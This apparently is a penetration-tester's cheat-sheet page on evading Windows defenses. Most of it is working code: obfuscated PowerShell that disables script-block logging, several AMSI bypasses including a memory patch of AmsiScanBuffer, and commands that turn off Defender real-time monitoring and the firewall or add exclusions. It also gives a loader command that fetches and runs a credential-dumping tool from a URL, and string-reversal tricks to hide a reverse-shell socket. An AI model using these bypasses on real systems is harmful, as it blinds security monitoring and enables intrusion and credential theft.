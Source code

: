 # Bypass Defenses

## Script-Block Logging Bypass

{% code overflow="wrap" %}
```aspnet
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```
{% endcode %}

Keep this in a file and use **HFS** to request those in the victim machine.

## AMSI Bypass

### PowerShell AMSI Bypass

{% tabs %}
{% tab title="Obfuscated" %}
{% code overflow="wrap" fullWidth="false" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
<pre class="language-powershell"><code class="lang-powershell"><strong>[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
</strong></code></pre>
{% endtab %}
{% endtabs %}

### .NET AMSI Bypass

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $ZQCUW

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

### Invisi-Shell

{% embed url="https://github.com/OmerYa/Invisi-Shell" %}

Invisi-Shell bypasses all of PowerShell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking.

```powershell
# With admin privileges:
RunWithPathAsAdmin.bat 

# More Silent
# With non-admin privileges:
RunWithRegistryNonAdmin.bat

# Type exit from the new PowerShell session to complete the clean-up.
exit
```

### Loader

Use [`NetLoader` ](https://github.com/Flangvik/NetLoader)to unhook ETW and patch AMSI then run executable from URL without saving. Use port forwarder instead of running them directly. Otherwise, this triggers Defender’s behavior-based detection: executable downloaded from remote web server. Read more inside [#http-server](transfer-files.md#http-server "mention")

```powershell
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

## Windows Defender

> **Note:** If Tamper protection is enabled you will not be able to turn off Defender by CMD or PowerShell. You can however, still create an exclusion.

Check Windows Defender Status with `Get-MpComputerStatus`

Disable real time monitoring. Need local admin access.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Disable scanning for downloaded files (more silent and preferred)

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

Create an exclusion if nothing works.

```powershell
Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```

## AppLocker

### List AppLocker Rules

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### Test AppLocker Policy

{% code fullWidth="false" %}
```powershell
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```
{% endcode %}

## Firewall

> **Note:** requires Admin privileges.

Disable using PowerShell

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Disable manually

<figure><img src="../.gitbook/assets/disable-firewall.png" alt=""><figcaption></figcaption></figure>

## AV Signatures Bypass

### AMSITrigger

identify the part of a script is detected

{% embed url="https://github.com/RythmStick/AMSITrigger" %}
AMSITrigger
{% endembed %}

Usage:

```powershell
AmsiTrigger_x64.exe -i PowerUp.ps1 
```

Example for scanning

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Example for bypassing

<pre class="language-powershell"><code class="lang-powershell"><strong># Reverse the "Net.Sockets" string
</strong>
<strong>$String = "stekcoS.teN"
</strong>$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
if ($Reverse)
{
 $client = New-Object System.$class.TCPClient($IPAddress,$Port)
}
</code></pre>

### DefenderChecker

Identify code and strings from a binary / file that Windows Defender may flag

{% embed url="https://github.com/t3hbb/DefenderCheck" %}
DefenderChecker
{% endembed %}

Usage:

```powershell
DefenderCheck.exe PowerUp.ps1 
```

### Extra Tools

1. Invoke-Obfuscation - [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
2. ByteToLineNumber.ps1 - Available inside _Tools_ Folder
3. Codecepticon(For Source Code) - [https://github.com/Accenture/Codecepticon](https://github.com/Accenture/Codecepticon)
4. ConfuserEX - [https://github.com/mkaring/ConfuserEx](https://github.com/mkaring/ConfuserEx)
5. LOLBAS - [https://github.com/LOLBAS-Project/LOLBAS?tab=readme-ov-file](https://github.com/LOLBAS-Project/LOLBAS?tab=readme-ov-file)
6. GPOddity - [https://github.com/synacktiv/GPOddity](https://github.com/synacktiv/GPOddity)

